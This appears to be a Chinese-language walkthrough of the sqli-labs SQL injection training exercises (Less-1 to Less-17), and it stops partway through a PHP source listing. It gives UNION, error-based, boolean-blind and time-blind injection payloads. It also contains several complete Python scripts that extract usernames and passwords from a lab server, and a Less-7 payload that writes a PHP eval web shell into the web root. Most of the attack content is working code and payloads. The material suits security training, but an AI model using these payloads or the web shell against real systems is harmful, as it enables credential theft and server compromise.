





在mysql中有一个系统数据库`information_schema`存储着所有的数据库的相关信息

查询数据库名

`select schema_name from information_schema.schemata`

查询数据表

`select table_name from information_schema.tables where table_schema='xxx'`

查询列

`select column_name from information_schema.columns where table_name='xxx'`

## Basic Challenges

### Less-1

传入`?id=1'`得到报错`''1'' LIMIT 0,1'`,说明原本的sql语句为`'$id' LIMIT 0,1`,但是此时`$id`多了一个`'`造成了`'`没有完全匹配,利用注释将后面多余的`'`去除

传入`?id=1'-- `此时的sql语句变为`'1'-- LIMIT 0,1`此时后面的`LIMIT 0,1`已经被注释掉了,同时`'`已经完全匹配所以sql语句正确执行

使用`order by`进行排序,`?id=1' order by 4-- `当传入4时报错`Unknown column '4' in 'order clause'`说明只有3列数据

利用`group_concat`列出所有数据库名

`?id=-1' UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `



列出表名`?id=-1' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `


查询列`?id=-1' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `



列出所有数据`?id=-1' UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `



### Less-2

传入`?id=1'`报错`'' LIMIT 0,1'`,传入`?id='1`报错`''1 LIMIT 0,1'`,推测sql语句为`$id LIMIT 0,1`(没有`'`)

爆破库名`?id=-1 UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

爆破表名`?id=-1 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

查询列`?id=-1 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

列出所有数据`?id=-1 UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `

### Less-3

传入`?id=1'`报错`''1'') LIMIT 0,1'`,推测sql语句为`('$id') LIMIT 0,1`

爆破库名`?id=-1') UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

爆破表名`?id=-1') UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

查询列`?id=-1') UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

列出所有数据`?id=-1') UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `

### Less-4

传入`?id=1'`无回显,传入`?id-1"`报错`"1"") LIMIT 0,1`,推测sql语句为`("$id") LIMIT 0,1`

爆破库名`?id=-1") UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata-- `

爆破表名`?id=-1") UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- `

查询列`?id=-1") UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'-- `

列出所有数据`?id=-1") UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users-- `

### Less-5

传入`?id=1'`报错`''1'' LIMIT 0,1'`,而传入`?id=1' or 1=1-- `则会返回`You are in`,不返回查询结果因此这里可以进行布尔盲注

```python
import requests
import time

url = "http://192.168.8.9/sqli-labs/Less-5/"


def get_database_length():  # 长度为8
    for i in range(50):
        payload = "?id=-1' or length(database())=%d-- " % i
        r = requests.get(url + payload)
        if "You are in" in r.text:
            return i
        time.sleep(0.1)


def get_database_name(database_length):  # security
    for i in range(1, database_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr(database(),%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():  # users,uagents,emails,referers
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            return
        print(chr(mid), end="")
    print()


def get_column_name():  # id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(column_name) from information_schema.columns where table_name='users') ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(username) from users) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(password) from users) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_username()
get_password()
```

```
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

也可以进行报错注入

1. 利用`updatexml`函数(该函数对输出的字符长度做了限制,其最长输出32位)

传入`?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e),1)-- `

返回`XPATH syntax error: '~information_schema,m~'`

```python
import requests
import time
import re

url = "http://192.168.8.9/sqli-labs/Less-5/"


def get_database_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),%d,20) from information_schema.schemata),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_table_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),%d,20) from information_schema.tables where table_schema='security'),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_column_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(column_name),%d,20) from information_schema.columns where table_name='users'),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_username():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(username),%d,20) from users),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_password():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(password),%d,20) from users),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


print(get_database_name())
print(get_table_name())
print(get_column_name())
print(get_username())
print(get_password())
```

```
information_schema,mysql,security,person,performance_schema,challenges
users,uagents,emails,referers
id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

2. 利用`extractvalue`函数

传入`?id=1' and extractvalue(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e))-- `

返回`XPATH syntax error: '~information_schema,m~'`

### Less-6

把Less-5的单引号改成双引号

### Less-7

传入`?id=1`,返回`You are in.... Use outfile......`提示使用导出数据到文件的方式来进行注入

传入`?id=1'`,返回`You have an error in your SQL syntax`,传入`?id=1' or 1=1 -- `,仍然返回`You have an error in your SQL syntax`

测试得出的正确闭合方式为`?id=1')) or 1=1 -- `

传入`?id=1')) union select 1,2,'<?php eval($_POST[_]);?>' into outfile "/var/www/html/shell.php" -- `



或者传入`?id=1')) UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata into outfile "/var/www/html/wdnmd" -- `


后面的步骤与Less-1相同

### Less-8

传入`?id=1'`无回显,传入`?id=1' or 1=1 -- `回显`You are in...........`

脚本同Less-5

### Less-9

无论传入什么都是返回` You are in...........`,根据提示闭合符号为`'`并'使用延时盲注

```python
import requests
import time

url = "http://192.168.8.9/sqli-labs/Less-9/"


def get_database_length():
    for i in range(50):
        payload = "?id=1' and if(length(database())=%d,sleep(3),1)-- " % i
        try:
            r = requests.get(url + payload, timeout=1)
        except Exception:
            return i
        time.sleep(0.1)


def get_database_name(database_length):
    for i in range(1, database_length + 1):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr(database(),%d,1))>%d,sleep(3),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,%d,1))>%d,sleep(3),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_column_name():  # id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(column_name) from information_schema.columns where table_name='users') ,%d,1))>%d,sleep(3),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(username) from users) ,%d,1))>%d,sleep(3),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(password) from users),%d,1))>%d,sleep(3),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_database_name(get_database_length())
get_table_name()
get_column_name()
get_username()
get_password()
```

### Less-10

将Less-9的单引号改成双引号

### Less-11

POST传参`uname=admin'&passwd=asdf`

返回`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'asdf' LIMIT 0,1' at line 1`

推测其闭合方式为`'$uname' and '$passwd'`

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysqli_query($con, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);
```

POST传参`1' or 1=1;#`

构成查询语句`SELECT username, password FROM users WHERE username='1' or 1=1;#' and password='123' LIMIT 0,1`


`mysqli_fetch_array`限制返回的行数

传入`uname=1' or 1=1 order by 3#&passwd=123`得到`Unknown column '3' in 'order clause'`可知一共两列

传入`uname=1' and 1=1 union select database(),1#&passwd=123`得到`Your Login name:security`

> 注意这里传入的是`and`,如果仍然传入`or`会返回`Your Login name:Dumb`


传入`uname=1' and 1=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#&passwd=123`

返回`Your Password:users,uagents,emails,referers`

传入`uname=1' and 1=1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#&passwd=123`

返回`Your Password:id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

传入`uname=1' and 1=1 union select 1,group_concat(username) from users#&passwd=123`

返回`Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4`

传入`uname=1' and 1=1 union select 1,group_concat(password) from users#&passwd=123`

返回`Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4`

### Less-12

把Less-11的单引号换成`")`

### Less-13

传入`uname=1')&passwd=123`

返回`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') and password=('123') LIMIT 0,1' at line 1`

传入`uname=1') or 1=1#&passwd=123`返回的`Content-Length`为`1493`


传入`uname=1') or 1=2#&passwd=123`返回的`Content-Length`为`1454`


由此可以进行布尔盲注

```python
import requests
import time

url = "http://192.168.8.9/sqli-labs/Less-13/"


# len(r.text) correct 1493 error 1454
def get_database_length():
    for i in range(50):
        payload = {"uname": "1') or length(database())=%d#" % i, "passwd": "123", "submit": "submit"}
        r = requests.post(url=url, data=payload)
        if len(r.text) == 1493:
            return i
        time.sleep(0.1)


def get_database_name(database_length):
    for i in range(1, database_length + 1):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr(database(),%d,1))>%d#" % (i, mid), "passwd": "123", "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():
    for i in range(1, 50):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_column_name():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr((select group_concat(username) from users),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr((select group_concat(password) from users),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_database_name(get_database_length())
get_table_name()
get_column_name()
get_username()
get_password()
```

### Less-14

把Less-13的单引号换成双引号

### Less-15

对传入的参数不进行错误回显,传入`uname=1' or 1=1#&passwd=1`得到`Content-Length`为`1492`并提示登录成功

传入`uname=1" or 1=1#&passwd=1`得到`Content-Length`为`1446`并提示登录失败

可知闭合方式为`'`,脚本同Less-13

```python
import requests
import time

url = "http://192.168.8.9/sqli-labs/Less-15/"


# len(r.text) correct 1492 error 1446
def get_database_length():
    for i in range(50):
        payload = {"uname": "1' or length(database())=%d#" % i, "passwd": "123", "submit": "submit"}
        r = requests.post(url=url, data=payload)
        if len(r.text) == 1492:
            return i
        time.sleep(0.1)


def get_database_name(database_length):
    for i in range(1, database_length + 1):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1' or ascii(substr(database(),%d,1))>%d#" % (i, mid), "passwd": "123", "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1492:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():
    for i in range(1, 50):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1' or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1492:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_column_name():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1' or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1492:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1' or ascii(substr((select group_concat(username) from users),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1492:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1' or ascii(substr((select group_concat(password) from users),%d,1))>%d#" % (i, mid), "passwd": "123",
                       "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1492:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_database_name(get_database_length())
get_table_name()
get_column_name()
get_username()
get_password()
```

### Less-16

把Less-15的单引号换成`")`

### Less-17

题目有点问题,要把源码中的`function check_input(value)`改成`function check_input($con,$value)`,同时将`$uname=check_input($_POST['uname']);  `改成`$uname=check_input($con,$_POST['uname']);  `

同时在`$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";`后面的语句改成`mysqli_query($con,$update);`

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-17 Update Query- Error based - String</title>
</head>

<body bgcolor="#000000">

<div style=" margin-top:20px;color:#FFF; font-size:24px; text-align:center"><font color="#FFFF00"> [PASSWORD RESET] </br></font>&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br></div>

<div  align="center" style="margin:20px 0px 0px 520px;border:20px; background-color:#0CF; text-align:center; width:400px; height:150px;">

<div style="padding-top:10px; font-size:15px;">
 

<!--Form to post the contents -->
<form action="" name="form1" method="post">

  <div style="margin-top:15px; height:30px;">User Name &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: &nbsp;&nbsp;&nbsp;&nbsp;
    <input type="text"  name="uname" value=""/>  </div>
  
  <div> New Password : &nbsp; &nbsp;
    <input type="text" name="passwd" value=""/></div></br>
    <div style=" margin-top:9px;margin-left:90px;"><input type="submit" name="submit" value="Submit" /></div>
</form>
</div>
</div>
<div style=" margin-top:10px;color:#FFF; font-size:23px; text-align:center">
<font size="6" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
